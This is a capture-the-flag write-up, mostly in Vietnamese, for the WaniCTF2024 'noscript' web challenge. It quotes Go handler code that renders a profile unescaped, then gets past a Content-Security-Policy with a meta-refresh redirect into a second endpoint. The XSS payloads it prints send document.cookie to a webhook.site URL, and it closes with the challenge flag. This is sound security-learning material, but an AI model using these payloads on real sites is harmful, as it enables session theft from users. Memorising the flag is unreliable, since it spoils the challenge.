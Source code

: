# noscript 

![342672789-9df855ff-2f5e-4743-8c41-5501d0b120b8](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/35efa440-56e8-4896-becb-84d613e60f67)


![342685225-37a7d167-179c-4a2b-a4d0-e099324b7328](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/f85a60ea-40c2-4212-86d2-4189c9a9cb57)


- Recon:

  + khi ta check chức năng sign in thì có 1 thông tin về xss banner
 
  + check qua payload <script> tag có vẻ nó không hiện thông tin về script tag
 
=> check code 

```
	r.GET("/user/:id", func(c *gin.Context) {
		c.Header("Content-Security-Policy", "default-src 'self', script-src 'none'")
		id := c.Param("id")
		re := regexp.MustCompile("^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[8|9|aA|bB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$")
		if re.MatchString(id) {
			if val, ok := db.Get(id); ok {
				params := map[string]interface{}{
					"id":       id,
					"username": val[0],
					"profile":  template.HTML(val[1]),  // vulnerable to XSS
				}
				c.HTML(http.StatusOK, "user.html", params)
			} else {
				_, _ = c.Writer.WriteString("<p>user not found <a href='/'>Home</a></p>")
			}
		} else {
			_, _ = c.Writer.WriteString("<p>invalid id <a href='/'>Home</a></p>")
		}
	})

```
+ "profile":  template.HTML(val[1]) : đang chứa lỗ hổng xss vì template chưa được lọc dữ liệu


=> chức năng này ta thấy csp đang chặn script thực thi nên ta sẽ sử dụng meta tag để chuyển hướng sang 1 trang khác 

```
// Get username API
	r.GET("/username/:id", func(c *gin.Context) {
		id := c.Param("id")
		re := regexp.MustCompile("^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[8|9|aA|bB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$")
		if re.MatchString(id) {
			if val, ok := db.Get(id); ok {
				_, _ = c.Writer.WriteString(val[0])
			} else {
				_, _ = c.Writer.WriteString("<p>user not found <a href='/'>Home</a></p>")
			}
		} else {
			_, _ = c.Writer.WriteString("<p>invalid id <a href='/'>Home</a></p>")
		}
	})
```

=> chức năng username/id api fetch data ở đây 


=> profile là để thực thi script để di chuyển đến main injection là username api để fetch cookie  




payload 


```

username=<a+autofocus='true'+tabindex=1+id=x+onfocus=fetch('https://webhook.site/d87e3a45-c3e2-4738-a9e3-bec99d4a9d78',{method:'POST',mode:'no-cors',body:document.cookie})>#x</a>&profile=<meta+http-equiv="refresh"+content="0;url=http://app:8080/username/id">


username=<a+autofocus%3d'true'+tabindex%3d1+id%3dx+onfocus%3dfetch('https://webhook.site/d87e3a45-c3e2-4738-a9e3-bec99d4a9d78',{method%3a'POST',mode%3a'no-cors',body%3adocument.cookie
})>%23x</a>&profile=<meta+http-equiv%3d"refresh"+content%3d"0%3burl%3dhttp%3a//app%3a8080/username/id">

id => user/id
```

![341986279-4998bd31-c136-4f3b-8b21-322ecb65d470](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/f6a5fcd6-a679-4621-995d-258e68c1705b)

=> payload ngắn hơn:

    username=<script>fetch(`(webhook)?cookie=${document.cookie}`)</script>
    
    profile=<meta+http-equiv="refresh"+content="0;url=http://app:8080/username/id">


![341986251-de421aa8-c7b9-40dd-9168-a29afb7c74d4](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/c136c762-4494-4abf-91ee-fc5eb5d38cef)


=> flag:FLAG{n0scr1p4_c4n_be_d4nger0us}
